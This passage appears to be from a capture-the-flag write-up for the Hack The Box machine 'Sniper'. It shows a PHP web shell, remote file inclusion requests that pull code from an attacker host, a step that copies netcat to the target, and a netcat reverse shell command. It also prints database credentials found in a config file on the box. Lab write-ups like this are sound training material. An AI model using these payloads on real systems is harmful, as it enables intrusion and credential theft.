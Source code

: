 ![](/assets/images/htb-writeup-sniper/info1.png)

![](/assets/images/htb-writeup-sniper/info2.png)

Next I'll create another PHP file to execute commands passed in the `cmd` parameter:

```php
<?php
system($_GET["cmd"]);
?>
```

And with the following request I can execute commands: `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=whoami`

![](/assets/images/htb-writeup-sniper/rce1.png)

To get a shell I'll upload netcat to the server with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=copy+\\10.10.14.11\test\nc.exe+c:\programdata\nc.exe`

![](/assets/images/htb-writeup-sniper/rce2.png)

Then I execute netcat to get a shell with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.11+80`

![](/assets/images/htb-writeup-sniper/shell.png)

## Enumeration of the machine

The first thing I check is the `C:\inetpub\wwwroot\user\db.php` file used by the login portal so I can see which credentials are used to connect to the database:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Then I check out which local users are present on the box:

```
C:\>net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount
Guest                    WDAGUtilityAccount
```
